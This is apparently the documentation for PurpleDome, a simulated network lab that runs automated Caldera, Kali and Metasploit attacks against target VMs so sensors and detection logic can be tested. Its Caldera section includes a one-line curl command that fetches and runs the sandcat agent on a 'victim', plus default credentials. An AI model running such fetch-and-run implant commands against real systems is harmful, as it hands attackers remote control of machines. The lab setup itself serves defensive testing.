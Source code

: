 ======
Basics
======

Purple Dome is a simulated and automated environment to experiment with hacking - and defense.

PurpleDome is relevant for you:

* If you develop **sensors** for bolt on security
* If you want to test **detection logic** for your bolt on security
* If you want to stress test **mitigation** around your vulnerable apps
* Experiment with **hardening** your OS or software
* Want to **forensically** analyse a system after an attack
* Do some **blue team exercises**
* Want to **train ML** on data from real attacks

PurpleDome simulates a small business network. It generates an attacker VM and target VMs. Automated attacks are then run against the targets.

Depending on which sensors you picked you will get their logs. And the logs from the attacks. Perfect to compare them side-by-side.

Attacks are written as small plugins and control pre-installed tools:

* Kali command line tools
* Caldera commands
* Metasploit

That way your experiments focus on behaviour detection. And not on whack-a-mole games with malware samples.

-------------------

Features
========

* Linux and Windows targets
* VM controller abstracted as plugins
    * Local vagrant based (debug and development)
    * Cloud based
* Attacks as plugins controlling
    * Caldera attacks
    * Kali attacks
    * Metasploit attacks
* Data collection: Attack log and sensor data in parallel with timestamps for matching events
* Vulnerability plugins: Modify the targets before the attack
* Sensor plugins: Write a simple wrapper around your sensor and integrate it into the experiments

Components
==========

The command line tools are the way you will interact with Purple Dome. Those are described in the *CLI* chapter.

The experiments are configured in YAML files, the format is described in the *configuration* chapter. You will also want to create some target VMs. You can do this manually or use Vagrant. Vagrant makes it simple to create Linux targets. Windows targets (with some start configuration) are harder and have an own chapter.

If you want to modify Purple Dome and contribute to it I can point you to the *Extending* chapter. Thanks to a plugin interface this is quite simple.

Data aggregator
---------------

We currently can use logstash


Caldera
-------

Caldera is an attack framework. Especially useful for pen testing and blue team training.

Starting it: *python3 server.py --insecure*

Web UI on *http://localhost:8888/*

Credentials: *red/admin*

Documentation: Documentation: https://caldera.readthedocs.io/en/latest/

Installing client on victim (Linux):

server="http://192.168.178.45:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v

Filebeat
--------

Filebeat collects logs on the target system.

It has a set of modules:

https://www.elastic.co/guide/en/beats/filebeat/6.8/filebeat-modules-overview.html

You can view a list of modules using: *filebeat modules list*


Logstash
--------

Logstash is used to aggregate the data from filebeat into a json file.

Logstash uses all .conf files in /etc/logstash/conf.d

https://www.elastic.co/guide/en/logstash/current/config-setting-files.html

Repos
-----

PurpleDome can be found on github: https://git.int.avast.com/ai-research/purpledome
